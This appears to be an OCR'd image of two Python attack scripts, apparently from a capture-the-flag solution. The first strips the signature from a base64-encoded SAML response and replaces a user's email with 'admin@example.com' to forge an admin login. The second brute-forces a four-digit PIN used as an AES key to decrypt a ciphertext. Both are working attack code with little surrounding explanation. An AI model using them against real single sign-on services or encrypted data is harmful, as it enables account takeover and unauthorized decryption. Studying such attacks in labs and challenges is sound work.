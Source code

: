 <br />

```
#!/usr/bin/python3

import base64
import re
import sys
from urllib.parse import unquote, quote_from_bytes

def saml(data):
    decoded = (base64.b64decode(unquote(data))).decode()
    prog = re.compile(r'(?<=<ds:SignatureValue>).*(?=<\/ds:SignatureValue>)')
    result = str(prog.findall(decoded)).strip("'[]")
    decoded = decoded.replace(result, "")
    decoded = decoded.replace("coolio@example.com","admin@example.com")
    decoded = quote_from_bytes(base64.b64encode(decoded.encode()))
    print("Result: \n\n", decoded)

saml(sys.argv[1])
```
<br />

```
# REQ: pip install pyCrypto

import base64
from Crypto.Cipher import AES
import hashlib
import re

enc = base64.b64decode("ED1nf3uLW4Hkwr1aGw+NpN5sgcRMPCFuk0XgtW181m4o6d0Ml3D/j6h1NSyOh4dbcGsbK6rcZOUyzHxWVb4QkA==".encode())
iv = enc[:16]
input = enc[16:]
uuid = re.compile(r'.*-.*-.*-.*')

def decrypt(pin, iv):
    cipher = AES.new(pin, AES.MODE_CBC, iv)
    return cipher.decrypt(input)

pin = 0
while pin < 10000:
    key = decrypt(hashlib.md5(str(pin).zfill(4).encode()).digest()[:16], iv)
    if uuid.match(str(key)):
        print(key)
    pin += 1

# output: str(pin).zfill(4) --> 0000, 0001, 0002 etc.
# output: hashlib.md5(str(pin).zfill(4).encode()).digest()[:16] --> b'J}\x1e\xd4\x14GN@3\xac)\xcc\xb8e=\x9b'
# output: Key:  b'dde5b3d4-e1a6-49b0-a667-4533a1b3fbcb\x0c\x0c\x0c\x0c\x0c\x0c\x0c\x0c\x0c\x0c\x0c\x0c'
# ord("\x0c") = 12 --> 48 - len(Key) = 12 (...,thus padding of 12 needed)
# The padding mechanism fills the final string by n-times the value n , i.e. 12 x "\x0c"
```
